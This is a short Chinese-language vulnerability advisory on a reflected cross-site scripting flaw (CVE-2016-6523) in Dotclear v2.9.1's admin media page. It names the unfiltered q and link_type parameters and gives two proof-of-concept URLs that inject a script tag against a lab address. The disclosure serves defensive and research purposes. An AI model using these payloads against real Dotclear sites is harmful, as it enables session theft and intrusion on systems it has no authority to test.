 ```yaml
---
layout: post
title: Dotclear v2.9.1反射型xss
---
```


发现者: 陈瑞琦 

发现日期: 2016-08-01

下载地址: [dotclear](https://dotclear.org/download)

作者: dotclear.org

作者通知日期: 2016-08-01

作者联系手段: security@dotclear.net

CVE ID: CVE-2016-6523

**描述:** 

Dotclear is an open source blog publishing application distributed under the GNU GPLv2. Developed originally by Olivier Meunier from 2002, Dotclear has now attracted a solid team of developers.[2] It is relatively popular in French speaking countries, where it is used by several major blogging platforms (Gandi Blogs,[3] Marine nationale,[4] etc.).(Wiki)

*渣翻*

Dotclear是一个基于GUN GPLv2的开源博客发布应用。在2002年由Olivier Meunier开发，现在已经吸引了一大个开发团队。在法语国家非常流行，并且为几个大型博客平台所用。


**细节:**

Dotclear v2.9.1 有一个反射型xss

/admin/media.php

line 34 $link_type = !empty($_REQUEST['link_type']) ? $_REQUEST['link_type'] : null;
line 62 $q = isset($_REQUEST['q']) ? $_REQUEST['q'] : null;

link_type 跟 q 参数缺少过滤

**PoC:**

http://172.16.146.130/dotclear/admin/media.php?q=77777%3C%2Fspan%3E%3Cscript%3Ealert(1)%3C/script%3E&popup=0&select=0&plugin_id=&post_id=&link_type=

http://172.16.146.130/dotclear/admin/media.php?q=77777&popup=0&select=0&plugin_id=&post_id=&link_type=8888%22%3E%3Cscript%3Ealert(1)%3C/script%3E

**修复方案:**

https://hg.dotclear.org/dotclear/rev/40d0207e520d